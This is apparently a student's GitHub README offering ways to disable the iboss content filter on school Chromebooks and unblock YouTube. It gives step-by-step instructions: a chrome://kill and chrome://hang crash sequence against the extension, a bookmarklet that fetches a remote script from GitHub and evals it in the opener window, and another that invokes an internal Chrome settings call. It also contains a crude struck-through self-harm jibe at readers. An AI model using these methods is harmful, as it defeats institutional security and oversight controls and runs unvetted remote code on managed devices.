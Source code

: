## Tools for responsible students. If you do not have a brain, turn back now.
<br>
<details>
    
<summary><b>blow up iboss</b></summary>
    
1. Go to [this page](chrome-extension://extensionidhereblahblah/manifest.json)

2. Bookmark the extension page (bookmark A) if you wish. Then, bookmark chrome://kill (B) and chrome://hang (C).

3. While on the extension page (A), click the chrome://kill bookmark (B). The page should crash. MAKE SURE TO READ STEP 4 BEFORE DOING STEP 3.

4. INSTANTLY start spamming chrome://hang (bookmark C) and quickly reload the page while spamming (ideally with the refresh key on your keyboard or ctrl+R). You should have reloaded within one or two seconds of killing the page. 
    
If the extension page (bookmark A) no longer loads, then it worked. You can close your tabs and the extension will be blown up successfully. If nothing loads, then you probably reloaded too late or spammed too slow. This isn't rocket science! Restart your computer to revert back to normal.


Note that the steps above are by no means the only way to perform the exploit. I'll add the first alternate set of instructions on May 11th for people affected by patches.
    
Need help? Go <b>~~kill yourse~~</b> email me [here](mailto:2027ramid16@moundsviewschools.org) or open an issue [here](https://github.com/Sreekar617/i-love-rice/issues/new) (you need a github account!)
    
</details>
<br>
<details>

<summary>blow up iboss method 2 (PATCHED!!!)</summary>

1. Bookmark any page
2. Copy the code below
```js
javascript:opener.eval(`
(async function () {
    eval((await (await fetch("https://raw.githubusercontent.com/Sreekar617/i-love-rice/main/cod.js")).text()));
})();`) && close();
```
3. Right click on the bookmark, click on "edit"
4. Under the field labeled "URL", paste in the code.
5. Go to [this page.](https://tinyurl.com/byeswamp)
6. Click on "The Blue Hat Crew Is the Best!"
7. On the blank page that appears, click on the bookmark you created earlier.
8. Click on "iboss cloud enterprise"

</details>

  
<details>
  
  <summary>extension thingie (PATCHED!!!)</summary>
  
1. Copy the code below
  ```js
  javascript:opener.chrome.send("TurnOffSync");
  ```
2. Bookmark any random page
3. Right click on the bookmark, and hit "Edit"
4. Under the field labeled "URL", paste in the code
5. Visit chrome://settings/resetProfileSettings
6. Press on "current settings"
<img width="379" alt="current_settings" src="https://user-images.githubusercontent.com/115044820/230745894-49e77af2-b4e5-4441-b7d3-075c7674ff58.png">
  
7. On the new page that opens, click on the bookmark you created earlier.
8. visit chrome://restart, DO NOT RESTART YOUR CHROMEBOOK MANUALLY
9. repeat steps 5-8 every time it stops working.
10. if google sign-ins break, restart your device.

Go to youtube, click the lock next to the url, click on "cookies and site data", and delete all cookies. In a new tab, go to youtube. It should be unblocked.

</details>

<details>
  
<summary>Unblock Youtube (PATCHED!!!)</summary>
 
1. Click on the lock
<img width="379" alt="current_settings" src="https://user-images.githubusercontent.com/115044820/231313548-5de4be10-b851-415e-b3f8-88d745479b0d.png">

2. Click on "Cookies and site data"
<img src="https://user-images.githubusercontent.com/115044820/231524166-9db656cc-1b8e-4572-b35f-04d75f477145.png" alt="Screenshot 2023-04-11 7.01.37 PM.png"/>

3. Delete all the cookies. NO COOKIES!!!
<img src="https://user-images.githubusercontent.com/115044820/231531249-8af4af81-068a-4cff-adac-bb9f918efd6c.png" alt="Screenshot 2023-04-12 11.27.26 AM.png"/>

4. Go to youtube.com in a new tab.

</details>


Update on Projects:


| Project  | ETA |
| ------------- | ------------- |
| Uboss V3 (Unblocking Method)  | June  |
| Tissue Box  (Unblocking Method)  | September |
| Francium (Unblockable Unblocker) | June |
| Gallium (Game Site) | June |
| Blue (Unblocker) | September |
| Gemnoid (Unblocker) | September |

quick disclaimer none of these above projects are made by me, but i will still be posting them here. you think i have that much patience to work on one project for six months?

<b>me when you star and share:</b>

<img width="404" alt="literally me" src="https://user-images.githubusercontent.com/115044820/235795472-18621a38-e169-4260-a1be-1b74e58044e2.png">


<sub>I do not condone any misuse of the tools included here. Use responsibly and at your own risk. Everything on this page is for educational purposes to see how far we can push Chrome OS, the pathetic excuse for an operating system that runs on pathetic excuses for computers.</sub>
